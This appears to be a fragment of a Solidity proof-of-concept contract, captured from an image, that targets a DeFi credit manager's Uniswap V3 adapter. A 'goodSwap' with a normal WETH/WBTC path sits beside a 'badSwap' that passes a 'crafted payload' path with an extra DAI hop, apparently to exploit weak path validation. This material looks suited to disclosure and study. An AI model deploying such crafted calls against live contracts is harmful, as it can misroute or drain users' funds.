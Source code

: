 ```
    function _getCreditAccount() external view returns(address){
        return CreditManager(creditManager).getCreditAccountOrRevert(address(this));
    }

    uint24 public constant poolFee = 10000;

    function approveEverything() external{
        CreditManager(creditManager).approve( UniV3Router, WETH );
        CreditManager(creditManager).approve( UniV3Router, WBTC );
    }

    function getBalance( address token, address account ) external view returns(uint){
        return IERC20(token).balanceOf(account);
    }

    function poolShift() external payable{
        IWETH(WETH).deposit{value: msg.value}();
        IWETH(WETH).approve( UniV3Router, type(uint).max );
        IRouter.ExactInputParams memory params = IRouter.ExactInputParams(
            abi.encodePacked(WETH, poolFee, WBTC),
            address(this),
            block.timestamp,
            msg.value,
            0
        );

        IRouter(UniV3Router).exactInput(params);
    }

    function goodSwap(uint amountOut) external{
        
        Adapter.ExactOutputParams memory params = Adapter.ExactOutputParams(
            abi.encodePacked(WBTC, poolFee, WETH), // normal payload
            address(this),
            block.timestamp,
            amountOut,
            type(uint).max
        );

        Adapter(adapter).exactOutput( params );
    }

    function badSwap(uint amountOut) external{

        Adapter.ExactOutputParams memory params = Adapter.ExactOutputParams(
            abi.encodePacked(WBTC, poolFee, WETH, DAI), // crafted payload
            address(this),
            block.timestamp,
            amountOut,
            type(uint).max
        );

        Adapter(adapter).exactOutput( params );
    }

}
```
